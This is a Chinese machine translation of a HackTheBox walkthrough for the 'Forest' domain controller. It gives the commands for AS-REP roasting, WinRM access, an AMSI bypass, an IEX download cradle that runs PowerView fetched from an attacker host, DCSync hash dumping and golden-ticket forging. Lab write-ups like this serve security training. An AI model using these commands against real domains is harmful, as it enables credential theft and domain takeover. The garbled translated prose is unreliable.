

# forest—asre proast、DcSync 和 Golden Ticket HackTheBox 演练

> 原文：<https://infosecwriteups.com/forest-an-asreproast-dcsync-and-golden-ticket-hackthebox-walkthrough-ade8dcdd1ee5?source=collection_archive---------1----------------------->


# 摘要

林是一个 windows Active Directory 域控制器，它允许通过 SMB、RPC 和 LDAP 进行有限的匿名访问。这种访问允许枚举域来识别不需要 Kerberos 预验证的服务帐户。这种配置允许对该服务帐户发出未经身份验证的 kerberos 请求，并返回一个加密的响应，该响应可以被离线破解，从而以一种称为[重写](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)的技术泄露帐户的密码。

使用此帐户提升权限，根据继承的组权限授予自己 DcSync 权限。 [DcSync](https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync) 模拟域控制器如何在彼此之间复制数据的合法行为，称为目录复制服务远程协议(MS-DRSR)。因为 MS-DRSR 是 Active Directory 的一个有效且必要的功能，所以不能关闭或禁用它。DcSync 被利用来提取管理员帐户的哈希以获得提升的权限。提取 krbtgt 帐户的散列来铸造 kerberos 金券并在环境中建立持久性。

# 侦察

我通过识别主机上开放的 TCP 和 UDP 端口开始侦察:

```
nmap -sT --min-rate 5000 --max-retries 1 -p- 10.10.10.161
```

> `-sT` — TCP

所有 TCP 端口

```
nmap -sU --min-rate 5000 --max-retries 1 -p- --open 10.10.10.161
```

> `-sU` — UDP
> `--open` —仅返回开放端口(排除关闭的&过滤)

所有 UDP 端口

几个服务表明该主机是域控制器:

*   DNS — TCP 端口 53
*   Kerberos — TCP 端口 88 和 464
*   LDAP — TCP 端口 389、636、3268 和 3269，以及 UDP 端口 389
*   NTP — UDP 端口 123

此外，有些服务在帐户受损时提供代码执行:

*   WINRM — Microsoft Windows 远程管理 TCP 端口 5985 和 47001
*   RPC —远程过程调用 TCP 端口 135

WINRM 允许低特权执行，而 RPC 需要本地管理员特权。在这种情况下，由于主机表现为作为域控制器运行，RPC 代码执行将等同于域管理员权限。

列举的第一个服务是 SMB，其中使用`smbclient`观察到匿名认证，如下所示:

```
smbclient -N -L 10.10.10.161
```

> `-N`—抑制密码提示
> `-L` —尝试列出可用的共享

匿名中小企业

虽然没有可匿名读取的 SMB 共享，但注意到匿名登录是成功的。由于此身份验证在域控制器上被接受，`crackmapexec`可用于从域中提取信息:

```
crackmapexec smb 10.10.10.161 -u '' -p '' --users
```

crackmapexec 提取域用户

此命令返回了域用户列表。其他有用的`crackmapexec`标志包括`--groups`和`--pass-pol`。用户可以使用其他工具(如`rpcclient`)进一步枚举，以确定哪些帐户属于哪些组:

```
rpcclient -N -U '' 10.10.10.161
rpcclient $> enumdomusers
```

> `-N` —抑制密码提示
> `-U ‘’` —不指定用户名

域用户和相应的 rid

`rpcclient`通过相对标识符(RID)而不是名称执行查找。一旦连接到域控制器，就可以发出`enumdomuser`来列出所有用户帐户及其 rid。对`svc-alfresco`帐户使用 RID `0x47b`的几个后续查询如下所示，表明该帐户是`Service Accounts`组的成员:

svc-alfresco 帐户的组成员资格

# 最初的立足点

由于`svc-alfresco`帐户是`Service Accounts`组的成员，我最初的想法是请求它的服务主体名称(SPN ),类似于[活动](https://medium.com/bugbountywriteup/active-a-kerberos-and-active-directory-hackthebox-walkthrough-fed9bf755d15)上的权限提升。但是，在整个域中没有找到 SPN。使用 Impacket 的`GetNPUsers.py`检查 kerberos 预认证是否被禁用，任何帐户都返回了一个[作为重新发布](http://www.exumbraops.com/blog/2016/6/1/kerberos-party-tricks-weaponizing-kerberos-protocol-flaws)响应，如下所示:

```
python3 GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/'
```

作为对 svc-alfresco 的重新发布响应

该响应可以加载到`john`或`hashcat`中，以便使用 rockyou 单词表离线破解:

```
john --format=krb5asrep \
-w=/usr/share/wordlists/rockyou.txt svc-alfresco.hash
```

离线密码破解

`svc-alfresco`账号的破解密码为“s3rvice”。通过 WINRM 的代码执行可以使用`evil-winrm`来获得`user.txt`标志:

```
evil-winrm --user svc-alfresco --password s3rvice --ip 10.10.10.161
```

使用 Evil-WinRM 访问 user.txt

# 权限提升

使用有效的域帐户，BloodHound 的 python 实现可以从本地 linux 主机上运行:

```
bloodhound-python --username svc-alfresco@HTB.LOCAL \
--password s3rvice \
--collectionmethod ALL \
--domain htb.local \
--nameserver 10.10.10.161
```

将输出的 json 文件上传到 BloodHound GUI，通过对`HTB.LOCAL`域的`WriteDacl`权限，显示了从`svc-alfresco`帐户到可到达的高价值目标的路径:



svc-alfresco 将 Write-Dacl 权限授予了 HTB。本地域

对 BloodHound 中这些关系的解释以及如何利用它们可以通过右键单击实体之间的连接线并选择“帮助”来访问。`WriteDacl`的滥用信息包括以下解释:

> 要滥用对域对象的 WriteDacl，您可以授予自己 DcSync 权限。
> 
> 您可能需要作为 EXCHANGE WINDOWS 权限@HTB 的成员向域控制器进行身份验证。如果您不是作为成员运行进程，则为本地。

为了充分利用这种关系，需要做两件事:

*   “Exchange Windows 权限”组的成员身份
*   授予目标用户的 DcSync 权限

包含 PowerShell 代码片段是为了向使用 PowerView.ps1 的 [Dev 分支](https://github.com/PowerShellMafia/PowerSploit/tree/dev)的帐户授予 DcSync 特权。

Sean Metcalf 在他的博客[中讨论了对根域具有`WriteDacl`权限的“Exchange Windows 权限”组的这种配置，以及其他常见的 Exchange，减少了 Active Directory 中的域管理员的 Exchange 权限路径](https://adsecurity.org/?p=4119)。

使用`evil-winrm`执行这些步骤来提升权限需要几个步骤:

1.  绕过 AMSI
2.  下载 PowerView.ps1
3.  为`svc-alfresco`创建一个 PowerShell 凭证对象
4.  将`svc-alfresco`添加到“Exchange Windows 权限”组
5.  授予`svc-alfresco` DcSync 权限

**步骤 1** 利用`evil-winrm`的内置模块:一旦产生了提示，只需输入`menu`来加载可用的模块，然后输入`Bypass-4MSI`。

**步骤 2** 通过 python3 的 HTTP 服务器本地托管 PowerView.ps1，并通过 PowerShell 下载支架将其下载到内存中来完成:

主机 PowerView.ps1:

```
sudo python3 -m http.server 80
```

下载 PowerView.ps1:

```
IEX(New-Object Net.WebClient).downloadString('[http://attacker/PowerView.ps1'](http://10.10.14.16/PowerView.ps1'))
```

**步骤 3** 创建一个 PowerShell 凭证对象，以在`svc-alresco`的上下文中执行 PowerView 的 cmdlets:

```
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force$Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $SecPassword)
```

**步骤 4** 可以使用标准 DOS 命令或通过 PowerView 完成，以达到相同的结果:

DOS:

```
net group “Exchange Windows Permissions” svc-alfresco /add
net group “Exchange Windows Permissions”
```

PowerView:

```
Add-AdGroupMember -Credential $Cred \
-Identity "Exchange Windows Permissions" \
-Members svc-alfrescoGet-AdGroupMember -Credential $Cred \
-Identity "Exchange Windows Permissions"
```

**步骤 5** 使用 PowerView 中的`Add-DomainObjectAcl` cmdlet 授予 DcSync 权限:

```
Add-DomainObjectAcl -Credential $Cred \
-TargetIdentity "DC=htb,DC=local" \
-PrincipalIdentity svc-alfresco \
-Rights DCSync
```

在这些步骤成功完成后(有一个清理脚本会定期从“Exchange Windows 权限”组中删除所有用户…)，可以执行 DcSync 来使用 Impacket 的`secretsdump.py`获取域中用户的哈希。定点清除在交战后留下的清理痕迹更少，也更难被发现。

```
python3 secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -just-dc-user Administrator
```

通过 secretsdump.py 提取管理员 NTLM 哈希

一旦获得了管理员的哈希，所有配置都可以通过以下命令来恢复:

删除组成员身份:

```
net group “Exchange Windows Permissions” svc-alfresco /delete
```

删除 DcSync 权限:

```
Remove-DomainObjectAcl -Credential $Cred \
-TargetIdentity "DC=htb,DC=local" \
-PrincipalIdentity svc-alfresco \
-Rights DCSync
```

为了有趣地了解通过 Impacket 的`ntlmrelayx.py`自动提升`svc-alfresco`账户的权限，请查看 [sif0 的文章](https://medium.com/bugbountywriteup/hackthebox-forest-5a11553de1)。

# 坚持

一个[金票](https://ldapwiki.com/wiki/Golden%20Ticket)提供了一种为目标域的任何用户(甚至不存在的用户)任意生成 [Kerberos](https://ldapwiki.com/wiki/Kerberos) [TGT](https://ldapwiki.com/wiki/TGT) 票的方法。生成金券需要两件事:

1.  `krbtgt`李世民的 NTLM 杂凑
2.  域的安全标识符(SID)

请注意，这两个组件都与为创建的账户*无关。这意味着即使用户更改了密码，金券仍然有效。*

一旦通过从域控制器提取管理员的 NTLM 哈希获得了域管理员权限，`secretsdump.py`就可以再次用于提取`krbtgt`帐户的哈希:

```
python3 secretsdump.py htb.local/Administrator@10.10.10.161 \
-hashes :32693b11e6aa90eb43d32c72a07ceea6 \
-just-dc-user krbtgt
```

通过 secretsdump.py 提取 krbtgt 的 NTLM 散列

查询域 SID 最直接的方法是通过 PowerView 中的`Get-DomainSID` cmdlet 使用`evil-winrm`返回:

```
S-1-5-21-3072663084-364016917-1341370565
```

在处理 kerberos 时，注意客户机和服务器之间的两个关键需求匹配是很重要的:

1.  时间
2.  主机名解析

`sntp`可用于将 linux 客户端同步到 NTP 服务器:

```
sudo sntp 10.10.10.161
```

编辑`/etc/hosts`文件以解析域和所有主机:

```
10.10.10.161    forest
10.10.10.161    htb
10.10.10.161    htb.local
```

黄金券可以使用 Impacket 的`ticketer.py`离线铸造:

```
python3 ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 \
-domain-sid S-1-5-21-3072663084-364016917-1341370565 \
-domain htb.local Administrator
```

管理员金券

要在 linux 上使用 kerberos 票证，请导出。ccache 文件到`KRB5CCNAME`环境变量:

```
export KRB5CCNAME=Administrator.ccache
```

Impacket 套件可以使用-k 和-no-pass 选项通过传递票证进行身份验证:

```
python3 wmiexec.py htb.local/Administrator@FOREST.HTB.LOCAL \
-k -no-pass -dc-ip 10.10.10.161
```

甚至可以为不存在的用户制造金券，并成功认证一些服务。通过`smbclient.py`的 SMB 认证和通过`PSexec.py`的代码执行都使用不存在的用户票。但是像`wmiexec.py`这样的工具需要合法用户。

关于金券的另一个警告是它们的有效期限——mimikatz`kerberos::golden /endin`和 Impacket `ticketer.py -duration`参数默认为 **10 年**，尽管这两个参数都可以更改。默认广告设置为 10 小时。

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)